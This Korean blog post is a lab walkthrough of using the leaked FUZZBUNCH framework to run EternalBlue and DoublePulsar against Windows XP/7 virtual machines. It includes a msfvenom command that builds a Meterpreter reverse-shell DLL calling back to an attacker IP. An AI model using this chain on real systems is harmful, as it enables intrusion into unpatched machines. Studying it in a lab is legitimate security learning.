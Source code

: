 ```yaml
---
layout: post
cover: 'assets/images/cover6.jpg'
title:  FUZZBUNCH를 사용한 해킹
date:   2017-07-11 01:01:01
tags: fiction
subclass: 'post tag-fiction'
categories: 'pjya0321'
navigation: True
logo: 'assets/images/ghost.png'
---
```



## 이터널블루와 더블풀자를 사용한 해킹
-----

해당 글은 가상환경 에서 실행했습니다.  
실제 환경에서 악용하면 나빠요 내책임아니에용  

쉐도우 프로커가 유출한 FUZZBUNCH 공부 기록  

윈도우XP 에 설정했다.  

필요한 준비물은  

https://github.com/misterch0c/shadowbroker  
쉐도우 브로커 자료 깃허브  
https://www.python.org/download/releases/2.6.6/  
파이썬 2.6  
https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/  
Pywin32 2.6버전  

요로케 3개  
왜 파이썬 2.6을 사용하는지는 잘모르지만 윈10에 2.6깔기 싫어서 가상에다 했다.  

그리고 환경변수 Path에 파이썬 경로 설정해준다.  

설정은 끝났다.  


cmd창에서 shadowbroker-master\windows 경로에 있는 fb.py 를 실행시킨다.  
실행시키기 전에 windows 경로에 listeningposts라는 폴더를 하나 생성해준다.  


![1](assets/postimage/Fuzz1.png)
fb.py를 실행하면 이런 화면이 보이고 순서대로 입력해준다  

타겟아이피 입력  
콜백아이피 입력(공격자 아이피)  
리다이렉션 사용은 알아서 (NO로 했음)  
로그를 기록할 디렉토리  

![2](assets/postimage/Fuzz2.png)

그리고  
프로젝트 인덱스는 대충 숫자 설정해주고  
프로젝트 이름도 설정 해주고   
로그 기록할껀지 말껀지 설정해주면  

퍼즈번치로 들어와짐  

use 명령어 입력하면 모듈들이 나온다  

![3](assets/postimage/Fuzz3.png)

use Eternalblue 을 입력하면 이터널블루가 실행된다.  

다양한 설정들 할꺼냐 안할꺼냐 하는데 그냥 디폴트값 계속 할꺼라서 엔터 눌러주면됨  
445포트는 SMB포트임  
중간에 Mode는 1번 해야 퍼즈번치사용함  

![4](assets/postimage/Fuzz4.png)

방화벽이 켜져있으면 위같은 화면이 나온다.  

![5](assets/postimage/Fuzz5.png)

타겟 을 윈7가상으로 바꾸고 방화벽을 내리고 다시 실행했다  
이번엔 이터널블루 석세스가 뜬다.  

![6](assets/postimage/Fuzz6.png)


칼리에서  

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.254.129 lport=4444 -f dll -o /root/Desktop/kangol.dll  

명령어를 입력해서 악성 dll을 생성한다.  
그리고 그걸 공격하던 xp로 가져온다.  

![8](assets/postimage/Fuzz8.png)

핸들러 하나 설정해준다. 위 dll악성코드와 동일한설정으로 한다.  

![9](assets/postimage/Fuzz9.png)


그리고 메타스플로잇으로 방금만든 핸들러를 실행시켜준다  

![7](assets/postimage/Fuzz7.png)

다시 공격하던 XP로 돌아가서 use Doublepulsar 명령어를 입력해서 더블풀자를 실행한다. 

![10](assets/postimage/Fuzz10.png)

설정들을 디폴트로 해주다가  

중간에 펑션에서 우리가 사용할 악성코드는 DLL이기 때문에 2번 dll을 설정해준다.  
그리고 DLL페이로드 경로는 생성한 악성 DLL의 경로를 넣어준다.  

프로세스 네임을 디폴트값으로 해주면 윈7을 해킹할 때 금방 꺼지기 때문에  
explorer.exe로 설정한다.  

설정은 완료하면 더블풀자 석시드~ 나온다  

![11](assets/postimage/Fuzz11.png)

다시 칼리리눅스로 돌아가서 인터프리터 세션이 하나 실행됬다.  

![12](assets/postimage/Fuzz12.png)

리버싱하던 윈7이라 컴이름이 리버스엔지니어링으로 나온다 ㅇㅅㅇ  

![13](assets/postimage/Fuzz13.png)

sessions -i 1  
을 입력한다.  

그리고 이런저런 명령어를 처보면 해킹이 됬다는것을 알 수 있다.  
![14](assets/postimage/Fuzz14.png)

윈도우7의 바탕화면을 스크린샷 한 모습이다.  
끝  